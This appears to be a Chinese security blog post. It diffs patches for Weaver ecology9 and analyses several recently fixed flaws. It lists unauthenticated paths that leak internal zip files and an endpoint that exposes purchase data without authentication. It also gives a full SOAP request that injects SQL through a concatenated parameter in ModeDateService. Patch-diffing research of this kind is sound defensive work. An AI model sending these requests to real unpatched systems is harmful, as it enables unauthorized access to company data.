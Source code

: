 #  泛微ecology9 1day分析   
 安全绘景   2024-12-18 07:18  
  
## 0x01 前言  
  
挺久没发文了，这段时间也忙，然后也是不知道写什么，发下看泛微的时候记的部分笔记吧，水水，冒个泡证明还在。  
  
**0x02 分析**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9zZrDr2DM8Nxx3Yiavu5AvXibcceE5St5nBD2rodfa0dfLkI0DmibOYibYBVib8f8iacBaYmLqmRDCE2S8grGMyX7PAw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9zZrDr2DM8Nxx3Yiavu5AvXibcceE5St5nr3uP1OVj4icNrzpygIx11y66emdGPdrEyLxhyCNnRS4ej8VTXn7gDAQ/640?wx_fmt=png&from=appmsg "")  
  
下载补丁包，根据官方更新的时间，编写脚本筛选对应时间的补丁文件  
。  
  
可结合安全通告进一步确定漏洞类型。  
  
脚本代码：  
```
import os
import argparse
from datetime import datetime

def find_files_by_modification_date(folder_path, target_date):
    files = []
    for root, dirs, filenames in os.walk(folder_path):
        for filename in filenames:
            file_path = os.path.join(root, filename)
            modification_time = os.path.getmtime(file_path)
            modification_date = datetime.fromtimestamp(modification_time).date()
            if modification_date == target_date:
                files.append(file_path)
    return files

def main():
    parser = argparse.ArgumentParser(description="按修改日期查找文件。")
    parser.add_argument("folder_path", type=str, help="要搜索的文件夹路径")
    parser.add_argument("target_date", type=str, help="目标修改日期，格式为 YYYY-MM-DD")

    args = parser.parse_args()
    folder_path = args.folder_path
    target_date = datetime.strptime(args.target_date, "%Y-%m-%d").date()

    files = find_files_by_modification_date(folder_path, target_date)
    for file in files:
        print(file)

if __name__ == "__main__":
    main()
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9zZrDr2DM8Nxx3Yiavu5AvXibcceE5St5nicomtfCES5JKKRBFjv4DIOJwNRp3AqxM82LHv3DsCvbSQNALvhTY0qQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9zZrDr2DM8Nxx3Yiavu5AvXibcceE5St5nUvRJxicCcGicib5ia3Sh5u4dgCwbIzJ6lTe4Tjw4gB5ib06ibw57oZH3GZoQ/640?wx_fmt=png&from=appmsg "")  
  
随便挑几个日期的看看。  
  
0816  
  
上图，可以看到更新了几个文件，打开发现内容为error。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9zZrDr2DM8Nxx3Yiavu5AvXibcceE5St5nnfbpiaQlDF98jLDdcWhMJzXfkSx0QR96UG9OCYMZqBHJuOWgz53ml8A/640?wx_fmt=png&from=appmsg "")  
  
在未打补丁机器访问：  
  
/cloudstore/ecode/setup/ecology_dev.zip  
  
/integration/weaversso/summary_cfg/ecology_sso_guide.zip  
  
/integration/weaversso/summary_cfg/ecology_sso_guide_en.zip  
  
/integration/weaversso/summary_dev/ecology_sso_dev_guide.zip  
  
/integration/weaversso/summary_dev/ecology_sso_dev_guide_en.zip  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9zZrDr2DM8Nxx3Yiavu5AvXibcceE5St5npA3PPib8DHB78XvgsZz2UVibhoxspfrhD81ibKeiaNJkZfd197p0IpvJeg/640?wx_fmt=png&from=appmsg "")  
  
0815  
  
官方通告中提到敏感信息泄露与越权登录漏洞。  
  
根据脚本的输出，搜索SecurityRuelForCpt。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9zZrDr2DM8Nxx3Yiavu5AvXibcceE5St5nVgOYpZzdbzgu7q12JZmoBhuAHjCenicBgibXt77a2lgfPm0ia6V4oUFGQ/640?wx_fmt=png&from=appmsg "")  
  
这里只分析信息泄露。未做鉴权，可根据资产id查出公司采购的商品及价格。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9zZrDr2DM8Nxx3Yiavu5AvXibcceE5St5n2SjVkQiaT2MSdX2Tl5k0L3zwkHtOksQY0I76sQRib3F4Sxgm2qyxa1uw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9zZrDr2DM8Nxx3Yiavu5AvXibcceE5St5noWXgasCHibJZia2gsAHfd2Dxzew5UicaRavoSkJyQdCgYN2qibAB4iaib2ZQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9zZrDr2DM8Nxx3Yiavu5AvXibcceE5St5nY6QV1FKcqTX3nBIH1dzNc4kiaUNJDaxKcjdGLCKV6fJ7I2jSsLDia48A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9zZrDr2DM8Nxx3Yiavu5AvXibcceE5St5n3UnRicsBfq3fpm4WvGEIBopeskwSoBoo7icWWhXFLCzPxVL2f4GdE1AQ/640?wx_fmt=png&from=appmsg "")  
  
0715  
  
这里只看ModeDateService吧，WorkPlanService网上挺多的了。  
  
搜索ModeDateServiceXmlRule，跟进vaildate方法。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9zZrDr2DM8Nxx3Yiavu5AvXibcceE5St5nd9D3SSeniaYHVZsQgibYT26XLeibytxDCCykpXuiaBWBEAibT9FBtj0jibcg/640?wx_fmt=png&from=appmsg "")  
  
可以看到进一步过滤的方法，随便看一个。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9zZrDr2DM8Nxx3Yiavu5AvXibcceE5St5nKyF0Q576E4Pibyzq3DFEoLicB6kEMTHtxibXCpFVkkhyZib6PKzSPs37Zg/640?wx_fmt=png&from=appmsg "")  
  
很明显，拼接参数三。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9zZrDr2DM8Nxx3Yiavu5AvXibcceE5St5nn45ibcZEYGvBeWgiatCfd4E1yBIfFs7OXdKWfGtNLU3nO5fAmepl70ew/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9zZrDr2DM8Nxx3Yiavu5AvXibcceE5St5nUNfmKK6UMqrVjowZNO4rV6DFK7G5PPcd1XnWeMoKU8prrOzua89icgg/640?wx_fmt=png&from=appmsg "")  
  
  
最终的sql语句大概是这个样子：  
```
select id from main_table t1,share_table t2 where 1=1 and t1.id = t2.sourceid and 1 = 1
```  
  
  
1=1 为我们拼接的内容。  
```
POST /services/ModeDateService HTTP/1.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://xxx//services/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ecology_JSessionid=aaasJ-HspHcxI5r2Krufz; JSESSIONID=aaasJ-HspHcxI5r2Krufz
Connection: close
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: xxx 
Content-Length: 405

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:mod="http://localhost/services/ModeDateService">
   <soapenv:Header/>
   <soapenv:Body>
      <mod:getAllModeDataCount>
         <mod:in0>1</mod:in0>
         <mod:in1>1</mod:in1>
         <mod:in2>1=1</mod:in2>
         <mod:in3>1</mod:in3>
      </mod:getAllModeDataCount>
   </soapenv:Body>
</soapenv:Envelope>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9zZrDr2DM8Nxx3Yiavu5AvXibcceE5St5nUfgiaeN2J2oF03xMOGWlFYM1SoAeeC9FtMzO1ic6PSibnJdE6DoibFWOyg/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9zZrDr2DM8Nxx3Yiavu5AvXibcceE5St5nMvBicF0atthF78sWCF36Aw71OlGGOSkn4xOVicvPKldicMxoz8IAvQT7A/640?wx_fmt=png&from=appmsg "")  
  
  
0806  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9zZrDr2DM8Nxx3Yiavu5AvXibcceE5St5niaqkKrDFNPvVaN22YZMd8KEbraNPodzy8bacPvxj16YbQOJGqmFm00A/640?wx_fmt=png&from=appmsg "")  
  
笔记就发这一点吧，xdm可以看看。  
  
  
**0x03 小密圈‍‍‍‍‍‍‍‍**  
最后送你一张优惠券，欢迎加入小密圈，好朋友。  
  
报考安全证书也欢迎滴滴。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/9zZrDr2DM8Nxx3Yiavu5AvXibcceE5St5n8omoorMzy9nMQhzM2EOyHo3Ktv34w5anrVtyiauG6seJZT9ibBmvK2VA/640?wx_fmt=jpeg&from=appmsg "")  
  
